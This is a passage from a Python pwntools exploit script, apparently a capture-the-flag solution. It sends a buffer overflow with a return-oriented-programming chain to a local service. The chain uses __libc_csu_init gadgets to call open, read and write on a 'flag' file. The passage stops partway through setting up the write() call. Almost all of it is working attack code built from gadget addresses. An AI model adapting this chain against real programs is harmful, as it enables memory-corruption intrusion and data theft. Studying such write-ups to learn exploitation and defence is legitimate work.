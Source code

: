 ```python
#!/usr/bin/env python

from pwn import *

"""
Gadget from __libc_csu_init()

|      .--> 0x004010d0    4c89ea         mov rdx, r13
|      ||   0x004010d3    4c89f6         mov rsi, r14
|      ||   0x004010d6    4489ff         mov edi, r15d
|      ||   0x004010d9    41ff14dc       call qword [r12 + rbx*8]
|      ||   0x004010dd    4883c301       add rbx, 1
|      ||   0x004010e1    4839eb         cmp rbx, rbp
|      `==< 0x004010e4    75ea           jne 0x4010d0                 
|       `-> 0x004010e6    4883c408       add rsp, 8
|       |   0x004010ea    5b             pop rbx
|       |   0x004010eb    5d             pop rbp
|       |   0x004010ec    415c           pop r12
|       |   0x004010ee    415d           pop r13
|       |   0x004010f0    415e           pop r14
|       |   0x004010f2    415f           pop r15
\       |   0x004010f4    c3             ret
"""

r = remote("localhost", 8888)

buf = ""
buf += "A"*572

# setup the registers for open()
buf += p64(0x004010ea)      # pop rbx; pop rbp... ret
buf += p64(0x0)             # set rbx to 0
buf += p64(0x1)             # set rbp to 1
buf += p64(0x6015f8)        # set r12 to pointer to _fini()
buf += "JUNKJUNK"           # set r13 to junk
buf += p64(0x0)             # set r14 to O_RDONLY
buf += p64(0x40132c)        # set r15 to pointer to string "flag"

# move values in r12-r15 registers to the actual registers we need to use
buf += p64(0x004010d0)      # set rdx, rdi, rsi
buf += "JUNKJUNK"           # removed by add rsp, 0x8

# this part of the chain is back at 0x004010ea (pop rbx; pop rbp... ret) 
# so might as well use it to setup the registers for read()
buf += p64(0x0)             # set rbx to 0
buf += p64(0x1)             # set rbp to 1
buf += p64(0x6015f8)        # set r12 to pointer to _fini()
buf += p64(0x20)            # set r13 to num bytes to read
buf += p64(0x00601000)      # set r14 to buf to read contents of flag to
buf += p64(0x3)             # set r15 fd from open, most likely fd 3

# call open@plt
buf += p64(0x400980)

# move values in r12-r15 registers to the actual registers we need to use
buf += p64(0x004010d0)      # set rdx, rdi, rsi
buf += "JUNKJUNK"           # removed by add rsp, 0x8

# this part of the chain is back at 0x004010ea (pop rbx; pop rbp... ret) 
# so might as well use it to setup the registers for write()
buf += p64(0x0)             # set rbx to 0
buf += p64(0x1)             # set rbp to 1
buf += p64(0x6015f8)        # set r12 to pointer to _fini()
```
